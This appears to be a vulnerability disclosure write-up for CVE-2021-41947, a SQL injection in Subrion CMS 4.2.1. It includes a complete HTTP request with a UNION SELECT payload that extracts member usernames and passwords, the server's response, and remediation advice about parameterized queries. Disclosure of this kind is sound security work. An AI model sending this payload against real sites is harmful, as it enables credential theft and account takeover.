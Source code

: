 ## [CVE-2021-41947](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41947)
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-41947/docs/Screenshot%202021-10-16%20204720.png)

## Description:
A SQL statement in request parameter vulnerability exists in Subrion CMS v4.2.1 in the visual mode.
This application should not incorporate any user-controllable data directly into SQL queries. 
Parameterized queries (also known as prepared statements) should be used to safely insert data into predefined queries. 
In no circumstances should users be able to control or modify the structure of the SQL query itself?

## MySQL Request:

```mysql
GET /panel/visual-mode.json?get=access&type=blocks%27%20UNION%20ALL%20SELECT%20username,%20password%20FROM%20sbr421_members%20--%20-&object=landing_what_is_this&page=index HTTP/1.1
Host: 192.168.1.4
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

## MySQL Response:

```mysql
HTTP/1.1 200 OK
Date: Sat, 16 Oct 2021 16:40:30 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Set-Cookie: INTELLI_c8e38fc98c=arfqsm98vhdqe3s8kod7nokh56; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_c8e38fc98c=arfqsm98vhdqe3s8kod7nokh56; expires=Sat, 16-Oct-2021 17:10:30 GMT; Max-Age=1800; path=/
Content-Length: 72
Connection: close
Content-Type: application/json

{"error":true,"message":"Action is forbidden.","code":403,"result":true}
```

## Risk:
- Medium

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-41947)

## Proof
[href](https://streamable.com/0a6q09)
